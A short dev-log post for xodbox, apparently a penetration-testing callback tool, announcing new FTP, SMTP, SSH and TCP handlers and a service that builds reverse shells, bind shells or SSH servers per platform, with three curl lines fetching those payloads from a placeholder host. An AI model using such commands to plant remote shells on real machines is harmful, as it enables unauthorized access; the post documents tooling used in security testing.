 ```yaml
---
title: Moar protocols and simple payloads
date: 2025-07-04
description: New doc site and golang version
categories: [xodbox]
tags: [dev log]
---
```


I have stubbed out a handful of protocols. I have been using them and watching the logs. I still need to finalize how web hok alerts are triggered and what information those alerts should contain.

The new protocols are:

- FTP
- SMTP
- SSH
- TCP

Check out the [handlers documentation section](/docs/pkg/handlers/).

I have also been working on a way to remote access payloads to machines. I often find my self needing to custom build a
reverse shell for various operating systems and architectures. With this update, it is now possible to get a reverse, 
bind, or ssh server custom-built for whatever platform is requesting it. Examples:

```bash
curl xodbox.example/bind.sh
curl xodbox.example/ssh.sh
curl xodbox.example/reverse.sh
```

For more information see the [in development seeds](/docs/pkg/handlers/httpx/seeds/in-dev/) and [MDaaS docs](/docs/pkg/mdaas/)

If you are having problems, please [file an issue](https://github.com/defektive/xodbox/issues) on GitHub. I will do my best to fic the problem or provide a workaround.

Thanks!
